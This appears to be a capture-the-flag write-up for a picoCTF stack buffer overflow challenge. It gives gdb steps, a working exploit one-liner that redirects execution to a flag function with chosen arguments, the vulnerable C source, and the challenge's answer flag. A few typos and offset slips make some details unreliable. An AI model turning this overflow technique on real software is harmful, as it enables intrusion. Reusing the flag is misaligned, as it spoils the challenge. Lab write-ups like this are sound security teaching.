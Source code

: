 This challenge memics `jump to libc` buffer overflow attack. If you want to exactly underestand it, then this is the best 
explination I have ever found [jump to libC by Dr.Du](https://youtu.be/LBo56Xyowvk?t=1240).

Basiclly, we need to jump to `flag` function, but prepare the `arg1,arg2` on the correct place on the stack ($ebp+8,$ebp+12)
for the flag function.

The $ebp when flag is executed will be in the same position of the $eip (return pointer), see the lecture above by Dr. Du 
if you want to understand how this is the case.

*So what we can do is rewirte the return pointer, and jump 4 bytes then write the arg1, then arg2. 

1- let's first find the address of flag which is `080485e6`
```
$ gdb vuln
(gdb) p flag
```
or 
```
$ readelf  -s vuln | grep flag
```
2- Let's find the return address location
Method 1, just fill the buffer until you get sig fault.  
```
python -c 'print("A"*184)`|./vuln
Segmentation fault (core dumped)
```
That means the return address is 188 bytes from the beggining of the `buf`. 

Method 2, use gdb to print the difference between `$ebp` and `buf` then add 4 bytes (the size of the previouse frame pointer)
to get the location of the return address. 
```
$gdb vuln
(gdb) b vuln
(gdb) p $ebp
(gdb) p &buf
# for some reason I couldn't print buff, so I just fill it with AA then print the values below the $ebp to find where is it.

$gdb vuln
(gdb)disassemble vuln
(gdb)b *0x0804869a < break just after gets function>
(gdb)r
<enter>AAAAAAAAAAAAAA
(gdb)x/200x $ebp-200
< look for the first address that contains 0x41414141, the A's>
< you will find it 0xffd00e90, which is the address of buf>
(gdb)p/d $epb - 0xffd00e90
$1=184 < same value we get from method 1>
```
So the return address is 184+4bytes(previous frame pointer) bytes from the beggining of the buf.
3- Let's overflow the buffer
Now we have:
- The address of the flag function `080485e6`
- The location of the return pointer `188` bytes from the beggining of the buf
- The location of the arg1, and arg2 4 and 8 bytes above the return address (i.e. 202,206).
Or simply jump 4bytes after the return address then write arg1, then arg2. 
```
#188 A's + (return address) + (dump A's into 4bytes) + (first arg)+(second arg)
python -c 'import struct; print("A"*188+struct.pack("<I",0x080485e6)+"AAAA"+struct.pack("<I",0xDEADBEEF)+struct.pack("<I",0xC0DED00D))'|./vuln
picoCTF{arg5_and_r3turn55897b905}
```
Note: struct.pack `<I` is to put the value in little endian format in the memory. 


Challenge fils:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
```
ls -la
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 22:04 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-2_6    33 Sep 28 22:04 flag.txt
-rwxr-sr-x   1 hacksports overflow-2_6  7500 Sep 28 22:04 vuln
-rw-rw-r--   1 hacksports hacksports     794 Sep 28 22:04 vuln.c

```
